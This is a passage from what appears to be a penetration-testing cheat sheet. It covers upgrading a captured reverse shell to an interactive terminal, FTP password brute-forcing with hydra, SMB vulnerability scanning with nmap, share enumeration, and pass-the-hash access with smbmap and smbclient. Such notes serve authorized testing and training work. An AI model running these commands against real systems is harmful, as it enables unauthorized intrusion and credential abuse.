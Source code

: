 Victim:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-z
```

Attacker:
```bash
echo $TERM     # note down
stty -a        # note down rows and cols
stty raw -echo
fg
```

Victim:
```bash
reset
export SHELL=bash          
export TERM=xterm256-color # from "echo $TERM"
stty rows 38 columns 116   # from "stty -a"
```

## Port Enumeration

### Port 21 (FTP)

Login bruteforce:
```bash
hydra -L usernames.txt -P passwords.txt <target> ftp 
```

### Port 139/445 (SMB)

Checking for vulnerabilties:
```bash
nmap -Pn -p445 --script smb-vuln-* <target>
nmap -Pn -p445 --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version <target> # SambaCry
```

Share enumeration:
```bash
nmap -Pn -p445 --script smb-enum-shares.nse <target>    # May show path

smbmap -H <IP> [-P <PORT>]                              # Null user
smbmap -u "username" -p "password" -H <IP> [-P <PORT>]  # Creds
smbmap -u "username" -p "<LM>:<NT>" -H <IP> [-P <PORT>] # Pass-the-Hash

enum4linux -a -u "<username>" -p "<password>" <IP>
```

If there is no null user, remember to try with the guest username.

Accessing share:
```bash
smbclient --no-pass -L //<IP>                              # Null user
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP>  # If you omit the passwd, it will be prompted. With --pw-nt-hash, the passwd provided is the NT hash
```
